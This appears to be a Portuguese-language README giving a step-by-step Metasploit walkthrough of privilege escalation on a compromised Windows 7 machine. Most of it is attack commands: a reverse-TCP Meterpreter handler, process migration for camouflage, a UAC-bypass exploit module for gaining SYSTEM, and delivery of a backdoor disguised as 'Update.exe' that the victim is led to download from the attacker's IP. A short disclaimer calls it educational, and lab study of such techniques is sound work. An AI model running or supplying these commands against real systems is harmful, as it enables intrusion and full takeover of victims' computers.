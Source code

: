 # 🚀 Escalonamento de Privilégios no Windows

---

## 🔍 Introdução
Pós-exploração refere-se a quaisquer ações tomadas após a abertura de uma sessão. Uma sessão é um shell aberto de uma exploração bem-sucedida ou ataque de força bruta, que por sua vez pode ser um shell padrão ou Meterpreter.

## 🔑 Importância do Escalonamento de Privilégios
O escalonamento de privilégios é uma técnica comum usada para obter acesso elevado ao sistema, permitindo que um invasor vá de um usuário padrão para administrador ou até root.

## 📌 Relembrando o Passo Anterior
Antes de iniciar o escalonamento de privilégios, foi realizado um ataque inicial que envolveu a criação e hospedagem de um backdoor executável em um servidor Apache, enganando o usuário para baixar e executar o arquivo malicioso. Com isso, uma sessão Meterpreter foi estabelecida.

---

## 🛠️ Ferramentas Necessárias

- 🐧 Kali Linux
- 🖥️ Windows 7


##  🔹 Comandos no Kali Linux
1️⃣ Configurando o Kali Linux
```
sudo su  # Acessa o modo root
ip addr  # Obtém o IP do Kali
msfconsole  # Inicia o Metasploit Framework
use multi/handler  # Configura o handler para receber conexões
set payload windows/meterpreter/reverse_tcp  # Define o payload
set LHOST X.X.X.X  # Define o IP do Kali
set LPORT 4444  # Define a porta de conexão
run  # Executa o exploit
```

2️⃣ Após o exploit ser bem-sucedido:
```
sysinfo  # Exibe informações do sistema da vítima
getuid  # Mostra o usuário atual
getsystem  # Tenta obter privilégios elevados
getpid  # Exibe o PID do processo atual
ps  # Lista os processos em execução
migrate XXXX  # Migra para outro processo para camuflagem (ex: explorer.exe)
getpid  # Confirma a migração do PID
shell  # Abre um shell interativo
whoami  # Verifica o usuário atual
whoami /priv  # Lista os privilégios do usuário
exit  # Sai do shell
background  # Retorna ao Metasploit sem encerrar a sessão
sessions  # Lista as sessões ativas
```

3️⃣ Escalonamento de Privilégios:
```
search UAC  # Busca por módulos de bypass de UAC
use exploit/windows/local/bypassuac  # Seleciona um exploit
show options  # Exibe as opções disponíveis
set payload windows/meterpreter/reverse_tcp  # Define o payload
show targets  # Mostra os alvos compatíveis
set target X  # Define o alvo correto (x32 ou x64)
set LHOST X.X.X.X  # Define o IP do Kali
set LPORT XXXX  # Define uma nova porta de conexão
set sessions X  # Escolhe a sessão ativa
run  # Executa o exploit
getuid  # Verifica se obteve privilégios elevados
getsystem  # Confirma se o acesso administrativo foi conseguido
shell  # Obtém um shell como administrador
whoami  # Confirma a identidade do usuário
whoami /priv  # Lista os privilégios disponíveis
```


## 🔹 Comandos no Windows 7 (Máquina Alvo)

**⚠️ Esse ataque faz parte da pós-exploração. A vítima já deve ter sido comprometida no passo anterior, executando o arquivo malicioso gerado.**

1️⃣ Criação de um Arquivo de Flag (Opcional - Teste de Persistência)
```
echo "Backdoor ativo!" > "%USERPROFILE%\Desktop\flag.txt"
```

2️⃣ Identificação do IP da Vítima
```
ipconfig  # Exibe o IP da máquina alvo
```

3️⃣ Obtenção e Execução do Arquivo Malicioso

- Abrir o navegador da máquina Windows e acessar:
```
http://X.X.X.X/Update.exe
```
- Baixar e executar o arquivo malicioso.

---

## ⚠️ Atenção
Este guia é apenas para fins educativos e de segurança ofensiva em ambientes controlados. Não utilize para atividades maliciosas.

### 📊 Resultados
Este ataque demonstra um método de pós-exploração que visa obter privilégios elevados após comprometer uma máquina Windows 7. A técnica pode ser aprimorada utilizando métodos de evasão de UAC, ofuscação do payload e técnicas avançadas de persistência. Use com responsabilidade!